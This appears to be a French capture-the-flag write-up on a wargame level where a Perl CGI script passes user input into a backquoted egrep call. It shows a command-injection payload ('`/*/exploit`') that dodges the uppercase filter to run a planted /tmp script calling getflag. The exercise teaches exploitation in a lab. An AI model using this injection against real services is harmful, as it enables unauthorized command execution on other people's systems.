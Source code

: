 Dans ce challenge, on a un fichier `perl`, qui est un serveur :

```bash
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";
```

Dans ce niveau la vulnérabilité est dans la fonction `t`:

```bash
sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}
```

On peut voir que des backquotes sont utilisées pour exécuter la commande `egrep` et que la variable `$xx` est utilisée comme argument de la commande `egrep`,
si la variable `$xx` contient aussi des backquotes, sont contenu sera exécuté

Donc si on envoie :

```bash
`/*/exploit`
```

Plu

S'il y a un exécutable dans `/tmp/` qui se nomme `EXPLOIT`, il sera exécuté.

Il reste plus qu'à écrire un script bash `/tmp/EXPLOIT` qui appel `getflag >> /tmp/level12/flag`
